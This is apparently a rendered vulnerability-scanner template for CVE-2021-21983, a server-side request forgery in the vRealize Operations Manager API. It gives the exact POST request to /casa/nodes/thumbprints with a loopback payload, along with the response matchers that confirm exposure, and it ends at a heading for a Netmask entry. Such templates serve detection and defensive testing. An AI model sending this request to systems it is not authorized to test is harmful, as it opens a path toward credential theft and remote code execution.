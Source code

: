 **Type - status**

- status
  1. 200

---

# vRealize Operations Manager API - Server-Side Request Forgery

## Description

- vRealize Operations Manager API is susceptible to server-side request forgery. A malicious actor with network access to the vRealize Operations Manager API can steal administrative credentials or trigger remote code execution using CVE-2021-21983.
- severity - high
- tags - kev,packetstorm,cve,cve2021,ssrf,vmware,vrealize

## Requests

### Step - 1

```
POST /casa/nodes/thumbprints HTTP/1.1
Host: {{Hostname}}
Content-Type: application/json;charset=UTF-8

["127.0.0.1:443/ui/"]

```

### Matchers

**Type - word**

- part - body
- words
  1. vRealize Operations Manager
  2. thumbprint
  3. address
- condition - and

**Type - status**

- status
  1. 200

---

# Netmask NPM Package - Server-Side Request Forgery
